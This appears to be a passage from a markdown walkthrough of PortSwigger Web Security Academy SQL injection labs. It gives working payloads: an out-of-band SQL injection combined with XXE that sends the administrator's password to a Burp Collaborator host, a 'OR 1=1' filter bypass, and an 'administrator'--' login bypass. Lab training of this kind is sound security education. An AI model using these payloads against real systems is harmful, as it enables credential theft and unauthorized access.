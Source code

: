 
### Solution
1. Visit the front page of the shop, and use Burp Suite Professional to intercept and modify the request containing the ``TrackingId`` cookie.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the ``TrackingId`` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows: 
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```
5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
6. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the ``administrator`` user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
7. In your browser, click "My account" to open the login page. Use the password to log in as the ``administrator`` user.

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Reference: https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data


### Quick Solution
In this lab the payload is quite easy, the goal is to retrieve hidden items. See next section for the solution.


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the ``category`` parameter, giving it the value ``'+OR+1=1--``
3. Submit the request, and verify that the response now contains additional items.

## Lab: SQL injection vulnerability allowing login bypass
Reference: https://portswigger.net/web-security/sql-injection/lab-login-bypass


### Quick Solution
In this lab the payload is quite easy, the goal is to login as ``administrator``. See next section for the solution.


### Solution
1. Use Burp Suite to intercept and modify the login request.
2. Modify the ``username`` parameter, giving it the value: ``administrator'--``
